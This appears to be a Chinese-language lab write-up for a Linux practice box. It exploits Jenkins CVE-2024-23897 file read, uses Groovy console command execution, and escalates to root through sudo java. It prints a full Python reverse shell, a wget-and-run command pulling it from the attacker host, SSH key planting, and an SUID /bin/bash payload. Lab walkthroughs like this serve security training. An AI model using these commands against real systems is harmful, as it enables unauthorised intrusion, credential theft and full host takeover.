## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/Backend  
❯ nmap 192.168.237.148 -sV -A -p- 

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ec:8d:c2:a6:1e:52:43:62:44:29:36:58:73:15:6b (RSA)
|   256 0d:39:f5:86:a1:fc:7d:ba:c6:55:14:37:2c:91:fe:37 (ECDSA)
|_  256 d6:91:b0:62:48:85:9c:51:dd:f9:20:35:d2:53:a6:25 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(10.0.18)
MAC Address: 00:0C:29:42:20:88 (VMware)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## CVE-2024-23897

进入**8080**端口发现是一个**Jenkins**的登录页面



经过测试，**弱口令**和**SQL注入**的情况并不存在

搜索得到一个任意文件读取的漏洞

- [Jenkins Security Advisory 2024-01-24](https://www.jenkins.io/security/advisory/2024-01-24/)



在网上找了两个脚本

- [xaitax/CVE-2024-23897: CVE-2024-23897 | Jenkins <= 2.441 & <= LTS 2.426.2 PoC and scanner.](https://github.com/xaitax/CVE-2024-23897)

- [wjlin0/CVE-2024-23897: CVE-2024-23897 - Jenkins 任意文件读取 利用工具](https://github.com/wjlin0/CVE-2024-23897)

但是都只能读取到一行？？，我找找其他的方法

可以访问**/jnlpJars/jenkins-cli.jar**下载到**jar**包，根据**vulnhub**里面的介绍，尝试读取一下登录密码

- [vulhub/jenkins/CVE-2024-23897 at master · vulhub/vulhub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897)



```
admin:da1c139ad3ba437184b29528e6f24098
```

成功登录到后台，版本是**2.441**



## Own jenkins

进入到命令执行的部分



可以执行以下命令

```
println "whoami".execute().text
println "cat /etc/passwd".execute().text
```



尝试读取**id\_rsa**密钥，发现没有

```
println "ls -al /home/jenkins/.ssh/".execute().text
```



但是可以把我们自己的密钥加到**authorized\_key**中

先做个反弹**Shell**吧，这里无法直接在控制台中反弹，需要上传一个脚本，可以参考👇

- [Jenkins未授权访问漏洞复现与 getshell 利用方法汇总\_jenkins getshell-CSDN博客](https://blog.csdn.net/weixin_40412037/article/details/120369441)

```
#!/usr/bin/python
# This is a Python reverse shell script

import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.237.147",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

然后上传执行

```
println "wget http://192.168.237.147/revshell.py -P /tmp/".execute().text
println "python3 /tmp/revshell.py".execute().text
```

成功得到反弹**shell**



接下来是将我们的公钥添加到**authorized\_keys**中



然后成功使用**SSH**登录





## Own tranquil

发现内部**80**端口开放了



并且看到**home**里的另一个用户所属组是**www-data**



先将端口转出来

```
[root@kali] /home/kali/easypwn  
❯ ssh -i ~/.ssh/id_rsa  jenkins@192.168.237.148 -L 8888:127.0.0.1:80   
```

然后访问**/uploadimages.php**，是一个命令执行的终端



当前目录没有写的权限，反弹**shell**也失败，可以**cat**看看这个**php**的源码是什么


可以看到使用了**escapeshellcmd**函数，以下这些都会被过滤

```
\ ' " $  ; & | < >`。
```

因此只能尝试读取文件了

```
ls /home/tranquil/backup -al
```



刚好发现了私钥，因此可以直接使用来登录



## Root

查看特殊命令

```
tranquil@backend:~$ sudo -l
Matching Defaults entries for tranquil on backend:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tranquil may run the following commands on backend:
    (ALL) NOPASSWD: /usr/bin/java
```

准备一个恶意的**java**代码

```
import java.io.IOException;

public class evil   {
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("chmod u+s /bin/bash");
    }
}
```

然后打包成**jar**包



然后执行即可拿到**root**权限



## Summary

`User`：通过**Jenkins**的**任意文件读取**漏洞，获得默认的管理员密码。进入到后台的命令控制台，执行反弹**Shell**，写入公钥登录拿到**jenkins**用户的权限。将内网端口转发出来，发现存在一个读取文件的PHP文件，由于**tranquil**的目录配置问题，读取到他的私钥，从而获取到**tranquil**的权限。

`Root`：**tranquil**能以**root**的身份运行**java**命令，因此可以构造恶意**java**代码来提权。
